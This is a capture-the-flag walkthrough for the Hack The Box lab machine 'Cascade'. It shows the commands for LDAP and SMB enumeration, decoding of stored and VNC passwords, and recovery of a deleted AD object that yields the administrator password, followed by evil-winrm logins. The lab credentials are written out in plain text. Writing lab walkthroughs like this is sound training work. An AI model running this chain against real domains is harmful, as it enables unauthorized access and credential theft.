# [Cascade](https://app.hackthebox.com/machines/cascade)

```bash
nmap -p- --min-rate 10000 10.10.10.182 -Pn  
```



After identifying open ports , let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,636,3268,3269,5985 10.10.10.182 -Pn 
```




I just enumerate LDAP via `ldapsearch` command.
```bash
ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182 
```


From this result, I found '**cascadeLegacyPwd**' value.




If we decode this via `base64 -d` command, we got password 'rY4n5eva'.

That's the password of 'r.thompson' user.

Let's look at SMB shares via below credentials.

r.thompson: rY4n5eva

```bash
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
```




Let's access 'Data' share via `smbclient` command.
```bash
smbclient -U '10.10.10.182\r.thompson' //10.10.10.182/Data
```

After accessing, let's got all files from this share.

```bash
mask ""
recurse on
prompt off
mget *
```




I read this file 'VNC Install.reg' and see the password field.




That is hexadecimal, let's read this value via this [tool](https://github.com/trinitronx/vncpasswd.py)

```bash
python2 vncpasswd.py -d -H 6bcf2a4b6e5aca0f
```


After enumeration of this password, I see that it is password of 's.smith' user.

s.smith: sT333ve2

```bash
smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2'
```




Let's login into machine via `evil-winrm` command.

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'
```

user.txt



After enumeration of 's.smith' user, I see that this user belongs to group called 'Audit Share'.




Let's access 'Audit$' share via this user on SMB by using `smbclient` command.

```bash
smbclient -U '10.10.10.182\s.smith' //10.10.10.182/Audit$
```


After accessing, let's got all files from this share.

```bash
mask ""
recurse on
prompt off
mget *
```




I got 'Audit.db' file, let's read this via `sqlite3` command.



I find sensitive creds for 'arksvc' user.

I know that AES Encryption is used, that's why I grab all sensitive information from DLL file.




Hola, I found the password of 'arksvc' user.

arksvc: w3lc0meFr31nd


Let's login via `evil-winrm` command.

```bash
evil-winrm -i 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'
```


After enumeration of this user via `net user arksvc`, I see that this user belongs to group called 'AD Recycle Bin'.



AD Recycle Bin is a well-know Windows group. Active Directory Object Recovery (or Recycle Bin) is a feature added in Server 2008 to allow administrators t**o recover deleted items just** like the recycle bin does for files. 

The linked [article](https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/) gives a PowerShell command to query all of the deleted objects within a domain


Let's get all data from 'Recycle Bin'.

```bash
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```




I see some stuff about 'TempAdmin' user from recovered items. Let's read all data for this user.

```bash
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```




If we decode the value for '**cascadeLegacyPwd**' field via `base64 -d` command, we can grab password of 'administrator'.


administrator: baCT3r1aN00dles

Let's login via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
```

root.txt

